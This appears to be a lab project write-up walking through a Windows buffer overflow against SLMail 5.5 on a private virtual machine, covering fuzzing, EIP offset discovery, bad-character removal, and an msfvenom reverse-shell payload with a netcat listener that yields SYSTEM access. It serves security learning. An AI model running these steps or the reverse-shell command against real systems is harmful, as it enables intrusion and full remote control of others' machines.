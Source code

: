 # Windows Buffer Overflow

## Objective:
This project is centered on understanding and executing a Windows buffer overflow. By targeting a specific Windows virtual machine, the project aimed to shed light on the intricacies of buffer overflow vulnerabilities in a Windows environment, emphasizing the steps and tools necessary to exploit such flaws. The key objectives of the project are detailed below:
- **Manual Buffer Overflow:** Engaging in a step-by-step process to perform a buffer overflow against a Windows target, understanding the specific conditions and elements that lead to successful exploitation.
- **Immunity Debugger Integration:** Leveraging the Immunity Debugger to trace and understand the buffer overflow process in real-time. This involved attaching specific processes to the debugger and observing program behavior during exploitation attempts.
- **Character Testing and EIP Control:** Using a fuzzer script to determine the exact point of EIP overwrite, followed by a systematic approach to identifying and removing bad characters to ensure the crafted payload's effectiveness.
- **Payload Crafting and Exploitation:** Utilizing MSFvenom to generate a specific payload, followed by setting breakpoints and adjusting scripts to gain control over the program's execution. Successfully exploiting the vulnerability led to obtaining a reverse shell on the target machine.

## Walkthrough:
- Opened BOF machine, accessed command prompt as admin, ran **“slmgr /rearm”** and **“ipconfig”**. Identified IP as **“10.0.2.10”**.



- Installed **“12f1ab027e5374587e7e998c00682c5d-SLMail55_4433.exe”**, rebooted VM, and created a shortcut for **“SLmail.cpl”**.



- Launched **“SLmail.cpl”** & **“Immunity debugger”** as admin.



- In “Immunity debugger”, attached the **“SLmail.exe”** file and ensure its active state.



- On my Kali machine, downloaded the **“fuzzerScript.py”** to the BOF folder on the desktop.



- In the same directory, created and edited **“fuzzy.py”**, updating the target IP address on line 13.



- Performed an nmap scan on the target VM. Identified Port 100 open with “pop3” protocol.



- Updated the **“fuzzy.py”** with the target IP and port.



- In the BOF directory, executed the script using “python2 fuzzy.py”.



- In Immunity debugger, noticed EIP showing **“41414141”**.



- Generated an MSF pattern using **“msf-pattern_create -l 3000”**, producing a unique 3000-byte pattern to identify program control flow.



- Copied this pattern into the **“fuzzy.py”** script buffer, removing the unnecessary counter and loop.



- Reset both SLmail.cpl and Immunity debugger. Ensured SLmail was active in Immunity, then ran **“python2 fuzzy.py”** from Kali.



- Observed EIP in Immunity debugger updated to **“39694438”**.



- Determined memory control location using **“msf-pattern_offset -l 3000 -q 39694438”**, identifying offset **“2606”**.




- Validated this by modifying **“fuzzy.py”** buffer to **“A * 2606 + B * 4”**.



- Reset SLmail.cpl and Immunity debugger, then executed **“python2 fuzzy.py”**. Noticed EIP as **“42424242”** and EBP as **“41414141”** in Immunity debugger.



- Updated **“fuzzy.py”** to include bad characters, and modified the buffer accordingly.



- Restarted slmail.clp and Immunity debugger. Ran **“python fuzzy.py”** from Kali, noting an output of 2865 bytes.



- Followed ESP in Immunity debugger's dump, identifying sequences to be removed from **“fuzzy.py”**.



- Repeated the process with updated **“fuzzy.py”**, observing a byte decrease in output.



- Made another update to **“fuzzy.py”**, removing the identified bad character.



- Reset tools, searched for mona modules in Immunity debugger, then searched for the appropriate DLL.



- Crafted shellcode with **“msfvenom -p windows/shell_reverse_tcp LPORT=4444 LHOST=10.0.2.6 -f c -b "\x00\x0a\x0d"”**.



- Updated “fuzzy.py” with the crafted shell code.



- Set up a listener on Kali with **“nc -lvp 4444”**.



- Restarted SLmail, ran **“fuzzy.py”**. The netcat listener received the code, granting system access. Confirmed with **“whoami”** command showing “nt authority\system”.
